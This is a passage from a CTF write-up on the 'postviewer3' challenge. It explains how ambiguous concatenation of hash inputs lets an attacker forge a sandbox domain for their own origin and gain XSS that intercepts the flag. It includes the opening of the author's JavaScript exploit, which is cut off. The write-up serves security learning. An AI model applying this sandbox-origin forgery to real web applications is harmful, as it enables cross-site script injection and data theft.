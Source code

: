 Here, the four parameters passed are simply concatenated together. For this challenge, each parameter is as follows:

```
body: BODY
product: postviewer
origin: https://postviewer3-web.2024.ctfcompetition.com
href: https://postviewer3-web.2024.ctfcompetition.com/#file-sha1-hash
```

The resulting concatenation is:

```
BODYpostviewer{CHALL_ORIGIN}{CHALL_ORIGIN}/#file-sha1-hash
```

If we could truly control the hash, it could become like this:

```
BODYpostviewer{CHALL_ORIGIN}{CHALL_ORIGIN}/#postviewerhttps://example.com
```

In this case, the output below would yield the same result:

```
body: BODYpostviewer{CHALL_ORIGIN}{CHALL_ORIGIN}/#
product: postviewer
origin: https://example.com
href: ''
```

At this point, the `origin` has become our own domain, so we can forge a sandbox domain with the same hash and trust our own origin.

Once we have the sandbox XSS, it's simple. My original idea was since it's now same-origin, just overwrite `onmessage` or `Blob`, intercept the input, as the iframe containing the flag cannot be accessed because the origin will be null.

In summary, the idea is roughly as above. However, the most difficult part is how to trigger this race condition. My own exploit is as follows:

``` html
<body>
  <div id=log></div>
</body>
<script>
  const sleep = ms => new Promise(r => setTimeout(r, ms))
  const callbackUrl = window.origin
  const evaluatorHtml = `{NOT_IMPORTANT}`;

  function arrayToBase36(arr) {
    return arr
      .reduce((a, b) => BigInt(256) * a + BigInt(b), BigInt(0))
      .toString(36);
  }

  async function calculateHash(...strings){
    const encoder = new TextEncoder();
    const string = strings.join('');
    const hash = await crypto.subtle.digest('SHA-256', encoder.encode(string));
    return arrayToBase36(new Uint8Array(hash)).padStart(50, '0').slice(0, 50);
  }

  async function getSandboxXss() {
    return new Promise(async (resolve) => {
      const selfOrigin = window.origin
      const PRODUCT = 'postviewer'
      const data = {
        body: evaluatorHtml + 'postviewerhttps://postviewer3-web.2024.ctfcompetition.comhttps://postviewer3-web.2024.ctfcompetition.com/#',
```